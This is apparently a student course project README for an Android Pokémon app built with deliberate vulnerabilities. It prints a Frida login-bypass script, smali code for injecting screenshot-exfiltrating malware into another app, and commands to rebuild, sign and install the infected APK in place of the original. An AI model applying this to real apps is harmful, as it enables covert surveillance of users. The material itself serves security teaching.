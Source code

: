 # Mobile Security Project

## Overview

This project is a part of the Mobile Security evaluation assignment for my course. It involves creating an Android application with specific functionalities and intentional vulnerabilities to demonstrate potential security risks and pentesting techniques.

## Features

- **Pokémon Lookup**: Users can search for Pokémon and view their details.
- **Pokedex Management**: Users can add Pokémon to their Pokedex.
- **User Authentication**: Basic login functionality.

## Vulnerabilities

- **Frida Bypass**: The login can be bypassed using a Frida script, demonstrating the potential for security bypasses in mobile applications.
- **Malware Injection**: The app contains malware capable of taking screenshots of the user's screen and sending them to a specified webhook. This illustrates the risk of malware being injected into seemingly harmless applications.

## Technical Details

### Pokémon Lookup and Pokedex Management

1. **Views**:

   - **Pokedex Screen**: Displays a list of Pokémon.
   - **Seach For Pokemon Screen**: Lets the user search for pokemons using the PokeAPI
   - **Details Screen**: Shows detailed information about a selected Pokémon.

2. **Database Connection**:

   - The app connects to a local SQLite database to store Pokémon data.

3. **API Requests**:
   - The app makes requests to PokeAPI to fetch data.

### Vulnerabilities

1. **Frida Bypass**:

   - A Frida script can be used to bypass the login screen. This demonstrates how runtime manipulation can be used to bypass security checks in mobile applications.

2. **Malware Injection**:
   - The app contains malware that takes screenshots of the user's screen and sends them to a predefined webhook. This is implemented to show how malicious code can be embedded into an APK and the potential risks associated with it.

## Installation

1. Clone the repository

2. Open the project in Android Studio.

3. Add you own webhook

4. Build and run the project on an emulator or a physical device.

## Usage

1. **Login**:

   - Use the provided credentials to log in. (Note: This can be bypassed using a Frida script for demonstration purposes.)

2. **Search Pokémon**:

   - Use the search functionality to look up different Pokémon.

3. **Add to Pokedex**:
   - Add selected Pokémon to your Pokedex.

## Security Analysis

### Frida Bypass

To demonstrate the Frida bypass, use the following script:

```javascript
// Frida script to bypass login
Java.perform(function () {
  var emu = Java.use("com.howest.mobilesecurity.MyDatabaseHelper");
  emu.checkPasswordMatch.implementation = function (a, b) {
    return true;
  };
});
```

### Malware Injection

The malware is designed to take screenshots and send them to a webhook. Ensure to use this responsibly and only for educational purposes.

### Smali Code Injection

Combining the malware with the targeted application is very simple. The malware and targeted application need to be decompiled and put into the same folder then smali code is used to manipulate the functionallity of the targeted application. The AndroidManifest.xml of the malware is combined with the original one.

Inject the smali code that is responsible for the initialisation of the malware. Below is that code. Now, inject this smali code at the end of the `onCreate` method in the `MainActivity` file of the application you want to infect:

```smali
new-instance v0, Lcom/howest/screenshotmalware/One;

move-object v1, p0

check-cast v1, Landroid/app/Activity;

invoke-direct {v0, v1}, Lcom/howest/screenshotmalware/One;-><init>(Landroid/app/Activity;)V

invoke-virtual {v0}, Lcom/howest/screenshotmalware/One;->start()V
```

### Building and Signing the Infected APK

1. Rebuild the application:

   ```bash
   apktool b application/ -o unsigned.apk
   ```

2. Align the APK:

   ```bash
   zipalign -p -f -v 4 unsigned.apk InstallMalware.apk
   ```

3. Sign the APK:

   ```bash
   apksigner sign --ks key.keystore InstallMalware.apk
   ```

4. Generate a keystore (if you don't have one already):

   ```bash
   keytool -genkey -V -keystore key.keystore -alias Android -keyalg RSA -keysize 2048 -validity 10000
   ```

5. Install the infected APK on a device:

   ```bash
   adb install InstallMalware.apk
   ```

6. Delete the original application
   ```bash
   adb uninstall `path to application`
   ```

## Disclaimer

This project is for educational purposes only. The vulnerabilities and malware included are intended to demonstrate potential security risks and should not be used for malicious purposes. Always seek permission before testing security on any system or application.

---

By: Bastien

